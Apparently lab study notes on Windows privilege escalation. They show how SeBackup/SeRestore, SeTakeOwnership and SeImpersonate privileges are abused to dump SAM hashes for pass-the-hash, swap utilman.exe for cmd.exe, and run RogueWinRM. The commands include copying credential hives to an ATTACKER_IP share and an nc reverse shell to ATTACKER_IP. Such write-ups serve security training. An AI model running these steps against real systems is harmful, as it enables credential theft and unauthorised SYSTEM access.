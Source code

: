 Privileges are rights that an account has to perform specific system-related tasks. These tasks can be as simple as the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.
# Using SeBackup and SeRestore Privileges to Dump Password Hashes

We can Dump sensitive data (like SAM and SYSTEM registry hives) to extract password hashes then perform pass-the-hash to login.

Suppose we have an account with SeBackup and SeRestore Privileges, we start by saving the following registry hives

```
reg save hklm\system <location>
reg save hklm\sam <location>
```

Now we can copy files to our machine, using smb, we need to open a public share on our machine:

```bash
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username <username> -password <password> public share
```

Then, we transfer files to our public share using the following commands:

```
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

Now, we need to extract password hashes using the following command:

```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

Finally, we try to perform a Pass-the-Hash attack to access the target machine with SYSTEM privileges:

```bash
python3.9 /opt/impacket/examples/psexec.py -hashes <hash> administrator@<target-ip>
```

# Using SeTakeOwnership to Replace utilman.exe with cmd.exe

The SeTakeOwnership privilege allows you to take ownership of any file, enabling actions like replacing system executables with malicious payloads.

Suppose we have an account with SeTakeOwnership Privilege, we simply takedown the ownership of utilman.exe:

```
takeown /f C:\Windows\System32\Utilman.exe
```

Now we give full permissions to our stolen exe:

```
icacls C:\Windows\System32\Utilman.exe /grant <username>:F
```

Finally, we replace utilman.exe with cmd.exe

```
copy cmd.exe utilman.exe
```

 After this step we can simply lock the screen and click Ease of Access to get cmd.exe with SYSTEM privileges.

# Using SeImpersonate / SeAssignPrimaryToken with RogueWinRM Exploit

The SeImpersonate and SeAssignPrimaryToken privileges allow a process to impersonate other users, enabling SYSTEM-level access via exploitation tools like RogueWinRM.

Assume we access to an IIS web shell on `http://TARGET_IP/`, and this account holds the `SeImpersonate` privilege.

First, let's start a listener on 4442:

```bash
nc -lvp 4442
```

Next we try to upload RogueWinRM Exploit to the target system.

Now, from the web shell, we run the following command to trigger the RogueWinRM exploit.

```
C:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

### Exploit Workflow

When the **BITS** service starts (which can be triggered by any user), it automatically makes a connection to port **5985** (the default WinRM port).

Normally, **BITS** runs under **SYSTEM** privileges, which means it can access and manage system-level resources.

If WinRM is not already running on port **5985**, an attacker can start a **RogueWinRM** service (a fake WinRM service) on the same port, this rogue service will listen for incoming connections on port **5985** and respond as if it were the legitimate WinRM service.

The **BITS** service connects to the attacker’s rogue WinRM service on port **5985** (just like it would connect to a legitimate WinRM service) and **BITS** attempts to authenticate to this rogue service with **SYSTEM** privileges, as that's the account under which it is running.

When the attacker’s rogue WinRM service receives the connection from the BITS service, it can now leverage the **SeImpersonate** privilege if the attacker has it.

Using **SeImpersonate**, the attacker can impersonate the **SYSTEM** account (the account under which BITS is running).